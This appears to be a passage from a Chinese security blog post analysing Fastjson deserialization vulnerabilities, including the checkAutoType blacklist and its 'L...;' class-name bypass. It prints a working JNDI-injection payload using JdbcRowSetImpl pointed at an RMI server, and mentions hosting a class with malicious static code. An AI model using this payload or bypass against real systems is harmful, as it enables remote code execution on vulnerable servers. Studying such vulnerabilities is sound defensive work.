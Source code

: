 开启http服务并将静态代码块有恶意代码的恶意类放上去

<img src="https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220608011811781.png" alt="image-20220608011811781" style="zoom:67%;" />

exp

```java
public static void main(String[] args) {
        JSON.parseObject("{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://127.0.0.1:1099/hello\",\"autoCommit\":true}");
}

{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/hello","autoCommit":true}
```



## 1.2.25-1.2.41

1.2.25开始引入了 checkAutoType 安全机制，默认关闭的情况下不能反序列化类，开启后对反序列化类进行黑名单检测，所以1.2.25~1.2.24的关键就在于**针对开启了Autotype的Fastjson进行黑名单绕过**

黑名单的实现在`com.alibaba.fastjson.parser.ParserConfig`的`denyList`属性中

![image-20220607234636647](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220607234636647.png)

##### checkAutoType函数分析

如果能直接添加到白名单中也就不需要下面的绕过了

首先需要打开autoType才能进行对不在白名单中的类型进行转换

其中一种方便调试的最简单的方式是设置全局`ParserConfig`的`AutoTypeSupport`为true

开启之后让autoTypeSupport为true才能有机会进去这段代码

![image-20220609204549908](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220609204549908.png)

在这段代码中判断,如果在白名单`acceptList`中则调用`TypeUtils.loadClass`,不在白名单里面进入下面是否在黑名单中的判断,如果不在黑名单才能接着往下走

直到源码的861行,调用`TypeUtils.loadClass`去加载类

![image-20220610152821158](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220610152821158.png)

这个loadClass方法会将以L开头和;结尾的类名去除L和;再去递归调用加载

![image-20220610152802367](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220610152802367.png)

这里涉及到一个叫做JNI字段描述符的东西

JNI全称是(Java Native Interface)

https://blog.csdn.net/m0_37537867/article/details/124137225

它提供一种Java字节码调用c/c++的解决方案

由于Java支持函数重载，因此仅仅根据函数名是没法找到对应的JNI函数。为了解决这个问题，JNI将参数类型和返回值类型作为函数的签名信息。

